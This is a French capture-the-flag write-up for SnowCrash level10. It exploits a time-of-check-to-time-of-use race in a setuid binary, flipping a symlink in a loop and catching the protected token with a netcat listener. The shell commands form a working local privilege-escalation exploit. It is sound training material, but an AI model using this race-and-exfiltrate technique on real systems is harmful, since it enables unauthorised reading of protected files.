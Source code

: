 Avec la commande **ls**, on trouve un fichier binaire **level10** et un fichier **token**.

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

On remarque que le binaire `level10` prends en parametre un fichier et un host:
```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

En decompilant on observe un access sur le fichier, on essaye de faire comme le level précedent :
```bash
level10@SnowCrash:~$ ln -sf ~/token /tmp/link
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```

Pour passer la condition du access on peut simplement lui donner un fichier qui a les permissions:
```bash
level10@SnowCrash:~$ echo hello > /tmp/test
level10@SnowCrash:~$ nc -l 6969 & ./level10 /tmp/test 0.0.0.0
[2] 3767
Connecting to 0.0.0.0:6969 .. .*( )*.
Connected!
Sending file .. hello
wrote file!
[1]-  Done                    nc -l 696
```

Du coup, on peut donc exploiter le temps entre la ligne access et la ligne open en changeant de link comme :
```bash
while true ; do ln -sf ~/token /tmp/link; ln -sf /tmp/t /tmp/link; done
```

Puis on fini par boucler egalement sur le `./level10`:
```bash
while true; do nc -l 6969 & ./level10 /tmp/link 0.0.0.0; done
```

On aura éventuellement le flag qui apparaîtra.


Puis on récupère le flag via l'utilisateur **flag10**.

```bash
su -c getflag - flag10
```
